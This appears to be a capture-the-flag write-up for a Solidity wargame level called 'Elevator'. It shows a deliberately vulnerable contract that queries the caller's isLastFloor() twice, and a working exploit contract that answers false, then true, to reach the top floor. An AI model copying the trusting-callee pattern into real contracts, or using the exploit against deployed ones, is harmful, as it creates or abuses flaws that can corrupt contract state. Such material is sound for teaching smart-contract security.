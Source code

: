 ## 11. Elevator

Goal for this exercise is:

- Ride elevator to top floor


<br/>

Here is the contract code:
~~~
pragma solidity ^0.6.0;


interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
~~~

<br/>

Contract is calling `isLastFloor()` function from our address twice which allows manipulation.

Here is the code to solve this:
~~~
pragma solidity ^0.6.0;


interface Elevator {
  function goTo(uint _floor) external;
}


contract ElevatorExploit {
    Elevator elevator = Elevator(0x1234);

    address payable owner;

    uint public isLastFloorCounter = 0;


    // fund contract here    
    constructor() public payable {
        owner = msg.sender;
    }

    function callGoTo() public {
        // lets go to floor 10 and make it top floor
        elevator.goTo(10);
    }
    
    // elevator will call here
    function isLastFloor(uint) public returns (bool) {
        isLastFloorCounter ++;
        
        if (isLastFloorCounter < 2) {
            return false;    
        } else {
            return true;
        }
        
    }
    
    // get funds back
    function debugWithdraw() external {
        require(msg.sender == owner);
        owner.transfer(address(this).balance);
    }
    
}
~~~
